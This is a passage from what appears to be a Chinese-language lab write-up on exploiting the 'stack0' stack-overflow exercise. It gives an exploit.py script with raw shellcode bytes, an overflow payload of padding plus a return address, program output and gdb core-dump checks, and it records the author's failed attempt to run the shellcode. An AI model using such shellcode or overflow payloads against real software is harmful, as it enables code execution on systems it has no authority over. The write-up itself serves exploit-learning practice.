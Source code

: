 易知从这里（core)看到的shellcode开始的位置应该从0xff85ffc0开始（上面exploit.py中不在shellcode前加nop时使用的地址是0xffffd500）

而0xff85ffc0中没有\x00不影响直接执行shellcode,不加nop,构造成如下输入链：

"a"*80+"\xc0\xff\x85\xff"+shellcode

在exploit.py中具体如下：

```
-----------------exploit.py-------------------
#/usr/bin/python
import os
import sys
buf =  ""
buf += "\xba\x31\x6f\x3c\x05\xd9\xca\xd9\x74\x24\xf4\x5d\x33"
buf += "\xc9\xb1\x12\x31\x55\x12\x83\xc5\x04\x03\x64\x61\xde"
buf += "\xf0\xce\x4c\xe1\x91\xc7\xf6\x84\xd0\xc7\x4e\x3e\xca"
buf += "\xaa\x7f\x89\x99\x16\xc1\x53\xec\x51\xce\x66\x46\x0d"
buf += "\xba\x41\x3e\x34\x50\x90\xe1\x2c\xa4\xca\x12\xb5\xee"
buf += "\x65\x64\x0c\xec\x89\x71\x39\x31\x21\x7a\xaf\xe0\x7a"
buf += "\xf4\xc9\x69\x6b\x5c\x7f\x44\xd3\x6f\x7a\xc1\xbd\x35"
buf += "\x8b\xf4\xbe\x2c"

jmp_esp="\xc0\xff\x85\xff"
#print jmp_esp
input="a"*80+jmp_esp+buf
print input
os.system("echo '%s' | ./stack0" % input)
-------------------end0-----------------------

python exploit.py
-----------output:--------------
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�����1o�A>4P���d��N>ʪ���SF
         91!z�ik\Dz��5�
you have changed the 'modified' variable
Segmentation fault (core dumped)
------------end-----------------

gdb -q -c core
-------------output:---------------
[New LWP 2220]
Core was generated by `./stack0'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0xff85ffc0 in ?? ()
---------------end-----------------

```

依然在新的0xff85ffc0无法执行

```
x/40x $esp-4
----------output:------------
0xffe11e0c:     0xff85ffc0      0x3c6f31ba      0xd9cad905      0x5df42474
----------end----------------

```
